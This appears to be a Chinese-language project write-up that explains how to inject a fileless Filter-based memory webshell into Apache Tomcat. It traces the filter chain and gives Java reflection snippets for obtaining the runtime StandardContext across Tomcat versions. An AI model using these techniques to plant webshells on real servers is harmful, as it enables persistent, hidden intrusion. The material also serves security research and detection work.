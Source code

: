 在打入一个内存马之前，需要先了解中间件从接受请求到调用Servlet中间的流程。

调用栈：

 ```java
 doGet:12, A (com)
 service:634, HttpServlet (javax.servlet.http)
 service:741, HttpServlet (javax.servlet.http)
 ...Filter chain
 doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
 ...Valve
 invoke:74, StandardEngineValve (org.apache.catalina.core)
 service:343, CoyoteAdapter (org.apache.catalina.connector)
 service:408, Http11Processor (org.apache.coyote.http11)
 process:66, AbstractProcessorLight (org.apache.coyote)
 ...进入处理线程
 run:748, Thread (java.lang)
 ```

# Filter内存马

直接看Tomcat Filter chain处，

**`org.apache.catalina.core.ApplicationFilterChain#internalDoFilter`**

```java
if (pos < n) {
    ApplicationFilterConfig filterConfig = filters[pos++];
    Filter filter = filterConfig.getFilter();
    filter.doFilter(request, response, this);
}
//Filter结束后再去调用Servlet
servlet.service(request, response);
```

Tomcat通过不断的递归调用`internalDoFilter()`来执行所有定义的Filter，这种方式称为Filter chain。实际上每次请求，Tomcat都会组装一遍Filter chain，组装filter chain在**`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`**

```java
ApplicationFilterChain filterChain = null;
StandardContext context = (StandardContext) wrapper.getParent(); //!
FilterMap filterMaps[] = context.findFilterMaps();
for (int i = 0; i < filterMaps.length; i++) {
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) 
        context.findFilterConfig(filterMaps[i].getFilterName());
    filterChain.addFilter(filterConfig);
}
```

filter chain的来源就是`StandardContext`。也就是Tomcat的上下文变量

知道了如何添加filter，还需要知道如何获取运行时的`StandardContext`，以动态添加filter



# Context获取

关于Tomcat Context的获取，已经有很多师傅写出了研究成果，非常感谢师傅们的无私分享~ 在本项目中，暂时是使用`MBeanServer`和`CurrentThread`的方式获取Context。嗯，暂时来说还没遇到啥问题，有空的话再加点其他方式趴（挖坑）

CurrentThread方式

```java
WebappClassLoaderBase contextClassLoader = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
WebResourceRoot resources = contextClassLoader.getResources();
return (StandardContext) resources.getContext();
```

MBeanServer方式

```java
MBeanServer mBeanServer = Registry.getRegistry(null, null).getMBeanServer();
Field mbsInterceptorField = mBeanServer.getClass().getDeclaredField("mbsInterceptor");
mbsInterceptorField.setAccessible(true);
Object mbsInterceptor = mbsInterceptorField.get(mBeanServer);

Field repositoryField = mbsInterceptor.getClass().getDeclaredField("repository");
repositoryField.setAccessible(true);
Object repository = repositoryField.get(mbsInterceptor);

Field domainTbField = repository.getClass().getDeclaredField("domainTb");
domainTbField.setAccessible(true);
Map domainTb = (Map) domainTbField.get(repository);
Map catalina = (Map) domainTb.get("Catalina");
Object[] set = catalina.keySet().toArray();

WebappLoader webappLoader = null;
for (int i = 0; i < set.length; i++) {
    NamedObject namedObject = (NamedObject) catalina.get(set[i]);
    BaseModelMBean baseModelMBean = (BaseModelMBean) namedObject.getObject();
    webappLoader = (WebappLoader) baseModelMBean.getManagedResource();
    return (StandardContext) webappLoader.getContainer();
}
```



# 大版本的差异

（写的时间隔的有点久233，有些小细节不记得了...）

**Tomcat 6 & Tomcat 7**

* `FilterMap`和`FilterDef`的路径为`org.apache.catalina.deploy`
* 需要调用`org.apache.catalina.loader.WebappLoader#getContainer`获取StandardContext
* .....

**Tomcat 8 & Tomcat 9**

* `FilterMap`和`FilterDef`的路径变更到`org.apache.tomcat.util.descriptor.web`

* 需要调用`org.apache.catalina.loader.WebappLoader#getContext`获取StandardContext
* Tomcat8的`Thread.currentThread().getContextClassLoader();`得到`WebappClassLoader`，而Tomca9得到`ParallelWebappClassLoader`。为了不报错，需要强转成他们的父类`WebappClassLoaderBase`
* ......



**Tomcat 10（未做）**



注：

* **为了实现一个Payload打全版本，本项目以Tomcat 8的jar包为基础，把缺少的类文件（`FilterDef`、`FilterMap`这些路径改了的）从Tomcat 6中拖出来，丢进Tomcat 8的包中，类缺少的方法就用`javassist`生成后替换，确保我用`javassist`生成Payload时能正确生成即可。运行时为了防止因为类不存在而报错，也为了缩减体积，舍去了利用反射和多层`if`判断类名，改用`try catch`的方式来控制程序的流程及报错的抑制。效果还是可以的233**
* **网上看到大多都是直接反射创建`ApplicationFilterConfig`的，但是实际上看源码可以看到 `StandardContext`有`filterStart()`方法，可以直接将`FilterMap`和`FilterDef`加进`FilterConfig`中。可以减小内存马体积。**

# Reference

[基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)

[关于shiro漏洞利用中key的修改](https://blog.thekingofduck.com/post/TheWayToChangeShiroKey/)

[tomcat不出网回显连续剧第六集](https://xz.aliyun.com/t/7535)